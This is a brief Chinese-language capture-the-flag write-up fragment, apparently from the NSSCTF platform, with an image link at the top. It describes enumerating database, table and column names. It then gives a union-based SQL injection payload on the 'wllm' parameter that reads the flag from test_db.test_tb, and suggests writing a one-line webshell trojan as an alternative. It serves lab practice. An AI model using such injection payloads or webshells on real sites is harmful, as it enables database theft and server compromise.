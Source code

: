 可以先爆破库名表名字段名，之后一句话suo

```sql
?wllm=-1' union select 1,flag,3 from test_db.test_tb--+
```

也可以写webshell一句话木马，参见：https://www.nssctf.cn/note/set/2504